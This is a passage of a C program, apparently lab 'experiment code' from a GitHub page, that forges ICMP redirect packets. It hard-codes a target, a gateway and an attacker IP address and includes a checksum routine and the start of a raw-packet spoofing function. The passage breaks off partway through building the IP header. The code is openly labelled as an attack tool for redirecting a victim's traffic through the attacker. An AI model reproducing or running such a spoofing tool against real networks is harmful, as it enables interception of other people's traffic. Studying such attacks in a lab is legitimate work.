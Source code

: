 ## 实验代码

```c
#include <pcap.h>
#include <time.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <netinet/in.h>
#include <netinet/ip_icmp.h>
#include <arpa/inet.h>
#include <sys/socket.h>
#include <unistd.h>

#define MAX 1024
#define SIZE_ETHERNET 14
#define BUFFER_SIZE 65535

const unsigned char *TARGET_IP = "192.168.31.98"; //攻击对象的ip
const unsigned char *GATEWAY_IP = "192.168.31.2";  //源网关ip
const unsigned char *SOURCE_IP = "192.16.31.148";  //攻击者ipo

/*计算校验和*/
unsigned short in_cksum(unsigned short *addr, int len)
{
    int sum = 0;
    unsigned short res = 0;
    while (len > 1)
    {
        sum += *addr++;
        len -= 2;
    }
    if (len == 1)
    {
        *((unsigned char *)(&res)) = *((unsigned char *)addr);
        sum += res;
    }
    sum = (sum >> 16) + (sum & 0xffff);
    sum += (sum >> 16);
    res = ~sum;
    return res;
}

void icmp_redirect(int sockfd, const unsigned char *data, int datalen)
{
    printf("icmp_redirect to %s\n",SOURCE_IP);
    struct sockaddr_in target;
    struct packet
    {
        struct iphdr ip;
        struct icmphdr icmp;
        char data[28];
    } packet;
    // 清 0
    bzero(&packet, sizeof(packet));
    //填充ip头
    packet.ip.version = 4; //版本号
    packet.ip.ihl = 5; //header length
    packet.ip.tos = 0; //服务类型
    packet.ip.tot_len = htons(56); //总长度
    packet.ip.id = getpid(); //标识
    packet.ip.frag_off = 0; //分片标志
    packet.ip.ttl = 255; //生存时间
```